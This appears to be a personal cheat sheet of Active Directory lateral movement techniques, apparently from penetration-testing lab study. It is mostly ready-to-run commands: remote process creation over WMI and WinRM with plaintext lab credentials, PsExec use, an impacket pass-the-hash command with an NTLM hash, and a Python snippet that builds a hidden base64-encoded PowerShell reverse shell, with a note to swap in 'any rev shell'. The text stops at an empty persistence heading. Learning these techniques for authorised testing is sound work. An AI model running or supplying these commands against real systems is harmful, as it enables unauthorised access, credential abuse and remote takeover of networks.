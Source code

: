 # AD Lateral Movement Techniques
## WMI 
- Remote Procedure Calls (port 135)
- Req target host credential & that user admininistrator local group in target
- deprecated in realworld
- not restricted by UAC remote restriction for non-domain joined machines 
- Works in cmd & pwsh
### Cmd 
- Dont have direct output 
- Launch calculator remotely  ``` wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc" ```
### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Prep Cim Session
   ```
        $options = New-CimSessionOption -Protocol DCOM
        $session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options // modify ip to new victim ip
        $command = 'calc';  // modify this to any rev shell or command
    ```
3. Prep Powershell Base64 Rev Shell
   ``` 
        import sys
        import base64

        payload = {reference https://www.revshells.com/ PowerShell #2 starting from "client....}

        cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

        print(cmd)
    ```
4. Run CIM
    ``` 
        Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
    ``` 

## WinRM
- WS-Management Protocol (xml messages w/ http&https)
- port 5986
- Req Administrators or Remote Management Users Group on target host
### Cmd
- Have output
- ``` winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami" ``` 

### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Start session 
   ``` 
    New-PSSession -ComputerName {Target IP} -Credential $credential
    Enter-PSSession 1 // no need nc
   ```

## PsExec
- Require ADMIN$ share in SMB
- Require that user is admin local group of that machine
- Require file & printer sharing turned on
1. Exec ``` ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd ```

## Pass the hash
- With NTLM authN services only | Kerberos authN NOT WORK!!
- Abuse SMB again
- Run in kali ``` /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@{Target ip} ```

# AD Persistence
##